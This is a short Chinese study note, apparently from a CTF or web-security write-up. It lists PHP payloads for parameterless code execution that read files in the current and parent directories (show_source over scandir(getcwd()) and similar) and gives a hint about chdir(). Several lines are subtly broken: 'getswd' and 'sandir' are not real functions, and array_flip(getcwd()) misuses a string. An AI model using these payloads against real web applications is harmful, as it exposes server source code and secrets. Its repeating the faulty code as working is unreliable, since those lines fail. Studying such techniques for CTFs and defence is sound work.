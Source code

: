 <figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">其实对于这个实验结果我是有点惊讶的。因为最开始对单个函数实验的时候，只有一个成功了，结果用无参数读取的时候，只有第四个没有成功，所以我们可以得到，前三个都是可用的。</mark>

除此之外，这里还有很多读取其他文件的方法，就不实现了，直接展示出来。

```php
show_source(current(array_reverse(scandir(getcwd()))));
//将最后一位的文件放到第一位来读取
show_source(next(array_reverse(scandir(getcwd()))));
//读取倒数第二个的文件
show_source(array_rand(array_flip(getcwd())));
//读取其他文件
```

#### <mark style="color:red;background-color:orange;">(3)读取其他文件目录下内容</mark>

```php
print_r(scandir(dirname(getswd())));
//查看上一级目录
print_r(sandir(next(scandir(getcwd()))));
//查看上一级目录
```

{% hint style="info" %}
如果我们想读取上级目录文件的内容，那么我们得使用chdir(),必须改变当前工作目录，不然会报错
{% endhint %}

